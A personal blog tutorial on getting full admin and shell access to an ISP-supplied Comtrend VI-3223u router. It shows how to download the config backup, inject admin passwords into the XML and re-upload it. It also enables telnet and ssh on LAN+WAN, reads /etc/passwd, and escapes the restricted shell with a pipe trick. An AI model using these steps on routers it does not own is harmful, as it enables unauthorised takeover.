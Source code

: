 ```yaml
---
title: Getting admin access for Comtrend VI-3223u router
author: marat
date: 2015-03-02
template: article.jade
comments: true
---
```


I have got **Comtrend VI-3223u** router from my ISP. Unfortunaly they do not give you full access to this router.
Recently I have discovered that with limited access you cannot do even simple things like configuring static IP address 
in DHCP or setting up parental control. If you are interested how to get full access for this router then this article is for you.

<span class="more"></span>

Before we start I assume that you have access to your router via http (the most common location is **http://192.168.1.1**) 
and you can login with user with limited rights. Let's assume that login name is "**user**" (it is in my case).

### Investigating open ports

If you login with **user** via http then you can find that there is limit set of settings you can change.
Let's check other means to access the router:

``` bash
$ nmap 192.168.1.1
Starting Nmap 5.51 ( http://nmap.org ) at 2016-03-02 22:40 CET
Nmap scan report for Comtrend.
Home (192.168.1.1) Host is up (0.0037s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
5431/tcp open  park-agent
```

As you can see the router has a few interesting ports to check: ftp, ssh, telnet.
Unfortunately I could not get anything useful neither from telnet nor ssh:

``` shell
$ telnet 192.168.1.1
Trying 192.168.1.1...
Connected to comtrend.home.
Escape character is '^]'.
Connection closed by foreign host.

$ ssh user@192.168.1.1
ssh_exchange_identification: read: Connection reset by peer
```

I have not tried ftp. Maybe it has some holes?


### Looking for hidden html content

Before I started to fiddle around with router I checked the Internet if there were any available exploits for this router.
I could not find anything. The only thing I found was some hidden html pages.
Hidden in the sense that there are no direct links to them from router web pages. These pages proved to be useful.


**http://192.168.1.1/password.html** allows to change user's password. Unfortunately only if you know the current password.
But it gave insights into different accounts on the router:
```
Access Control -- Passwords
Access to your broadband router is controlled through three user accounts: ADMIN_ACCOUNT_1, ADMIN_ACCOUNT_2, and user.
The user name "ADMIN_ACCOUNT_1" has unrestricted access to change and view configuration of your Broadband Router.
The user name "ADMIN_ACCOUNT_2" is used to allow an ISP technician to access your Broadband Router for maintenance and to run diagnostics.
The user name "user" can access the Broadband Router, view configuration settings and statistics, as well as, update the router's software. 
```

Ok, so now we know that there are two more accounts (**admin** and **support**) with higher access rights than **user**.
I tried many stanadard passwords like (admin, 12345, root) but it did not work.

The next interesting hidden html page is **http://192.168.1.1/backupsettings.conf** It collects all router settings
(even those that you cannot see or modify using **user** account) and gives it to you as an xml file.
It contains all information to setup internet connection. You can use them to setup own router 
instead of **Comtrend VI-3223u** provided by ISP. I almost decided to go this way.
But then I noticed that this config file contains my **user** password (base64 encoded) to access the router:
``` xml
<X_BROADCOM_COM_LoginCfg>
  <UserPassword>c29tZXBhc3N3b3JkaGVyZQo=</UserPassword>
</X_BROADCOM_COM_LoginCfg> 
```

It would have been convinient if it had AdminPassword and SupportPassword as well.
What would happen if I add admin and support passwords to this config file and upload it back to the router.
Luckily there is another hidden webage to upload config file to router **http://192.168.1.1/updatesettings.html**.
Let's modify config file and try to update router settings:
``` xml
<X_BROADCOM_COM_LoginCfg>
  <AdminPassword>c29tZXBhc3N3b3JkaGVyZQo=</AdminPassword>
  <SupportPassword>c29tZXBhc3N3b3JkaGVyZQo=</SupportPassword>
  <UserPassword>c29tZXBhc3N3b3JkaGVyZQo=</UserPassword>
</X_BROADCOM_COM_LoginCfg>
```

For simplicity I used the same password as **user**'s password for **admin** and **support** accounts.
Go to **http://192.168.1.1/updatesettings.html** and update router setting using modified config file.
Wait for it to come back.

Once the router comes back try login with **ADMIN_ACCOUNT_1**(you get admin account name from **http://192.168.1.1/password.html**)
user name and user's password. **WOW, it works!** I have got full right access to my router.
Finally I could setup static DHCP addresses and parental control.

But can we go further? Who would not like shell access to his router?

### Getting shell access

Using your admin account in the web client of the router navigate to **Management > Access Control > Services**.
Put ssh and telnet into **LAN+WAN** access mode. Save settings and let's try telnet again:
``` shell
$ telnet 192.168.1.1
Trying 192.168.1.1...

Connected to comtrend.home.
Escape character is '^]'.
Broadband Router
Login: ADMIN_ACCOUNT_1
Password: <known users password here>
> help
?
help
reboot
psp
ps
dns
cat
... many more other commands 
```

Wow, now telnet works. But unfortunately it does not have useful commands like **ls**, only **cat**.
But even using **cat** we can get some interesting info:
``` shell
> cat /etc/passwd
ADMIN_ACCOUNT_1:hashed_password:0:0:Administrator:/:/bin/sh
ADMIN_ACCOUNT_2:hashed_password:0:0:Technical Support:/:/bin/sh
user:hashed_password:0:0:Normal User:/:/bin/sh
nobody:hashed_password:0:0:nobody for ftp:/:/bin/sh
```

This is not really useful since we already know the admin's password and even know how to change it.
Let's see if we can execute something outside of provided commands by telnet. Check if semicolon can help us:
``` shell
> echo ; ls
Warning: operator ; is not supported!
```

Bummer... But what about pipe?
``` shell
> echo | ls
bin dev lib mnt proc sys usr webs
data etc linuxrc opt sbin tmp var
```

**It works!** You can run any availalbe shell command (ls, cp, rm, mkdir,... check bin directory to see more) using "pipe" trick.
Now you are only limited by your imagination. To make your investigations easier you can connect usb driveto the router
and cp everything to this drive: `echo | ls cp bin etc lib /mnt/usb1_1/`.


